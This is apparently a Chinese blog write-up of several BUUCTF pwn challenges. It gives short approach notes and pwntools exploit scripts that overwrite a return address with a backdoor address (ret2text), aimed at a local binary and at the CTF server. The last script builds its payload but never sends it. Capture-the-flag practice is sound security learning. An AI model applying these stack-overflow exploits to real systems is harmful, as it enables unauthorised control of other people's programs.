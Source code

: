 ```yaml
---
title: BUUCTF wp
date: 2024-05-29 23:39:06
category: wp
tags: 
---
```


> BUUCTF的部分wp
> 后面的有时间再做

# pwn
## test_your_nc
### 思路
简单题，直接nc

## rip
### 思路
程序中给了后门，直接ret2text，注意一下栈平衡

### exp
```python
from pwn import *

#p = remote("node5.buuoj.cn",29672)
p = process("pwn1")

gdb.attach(p)

backdoor = 0x401186
ret = 0x401185

payload = b'a'*15+b'b'*8+p64(backdoor)

p.sendline(payload)

p.interactive()
```

## warmup_csaw_2016
### 思路
ret2text简单题

### exp
```python
from pwn import *

p = remote("node5.buuoj.cn",25110)
#p = process("./warmup_csaw_2016")

#gdb.attach(p)

p.recvuntil(b"WOW:")
back = p.recv(8)
back = int(back,16)
payload = b'a'*(0x40+0x8)+p64(back)

```